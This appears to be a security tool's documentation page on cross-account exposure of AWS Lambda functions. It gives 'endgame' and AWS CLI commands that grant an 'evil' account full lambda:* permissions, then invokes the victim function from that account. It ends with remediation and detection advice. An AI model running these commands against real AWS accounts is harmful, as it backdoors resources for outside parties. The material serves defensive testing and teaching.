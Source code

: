 # Lambda Function Cross-Account Access

AWS Lambda Permission Policies (aka resource-based policies) can allow functions to be invoked from AWS accounts other than the one it is running in.

Compromised Lambda functions are a known attack path for [Privilege Escalation](https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-lambda-privilege-escalation/) and other nefarious use cases. While the impact often depends on the context of the Lambdas itself, Lambda functions often modify AWS infrastructure or have data plane access. Abusing these capabilities could compromise the confidentiality and integrity of the resources in the account.

Existing Exploitation tools such as [Pacu](https://github.com/RhinoSecurityLabs/pacu) have capabilities that help attackers exploit compromised Lambda functions. Pacu, for example, has modules that leverage Lambda functions to [backdoor new IAM roles](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_roles), to [modify security groups](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_sec_groups), and to [create new IAM users](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_users). As such, Lambda functions are high-value targets to attackers, and existing exploitation frameworks such as Pacu and others increase the likelihood for abuse when a Lambda function is compromised.

## Steps to Reproduce

* **Option 1**: To expose the Lambda function using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda --name test-resource-exposure
```

* **Option 2**: To expose the Lambda Function using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777

aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id Endgame \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws lambda get-policy --function-name test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command to invoke the function in the victim account:

```bash
export VICTIM_LAMBDA=arn:aws:lambda:us-east-1:111122223333:test-resource-exposure
aws lambda invoke --function-name $VICTIM_LAMBDA
```

* Observe that the output resembles the following:

```json
{
    "ExecutedVersion": "$LATEST",
    "StatusCode": 200
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that cross-account Lambda functions allow access only to trusted accounts to prevent unknown function invocation requests
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Functions. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could expose your Lambda Functions**: Tightly control access to the following IAM actions:
  - [lambda:AddPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddPermission.html): _Grants permission to give an AWS service or another account permission to use an AWS Lambda function_
  - [lambda:GetPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetPolicy.html): _Grants permission to view the resource-based policy for an AWS Lambda function, version, or alias_
  - [lambda:InvokeFunction](https://docs.aws.amazon.com/lambda/latest/dg/API_Invoke.html): _Grants permission to invoke an AWS Lambda function_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:RemovePermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemovePermission.html): _Grants permission to revoke function-use permission from an AWS service or another account_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws lambda add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
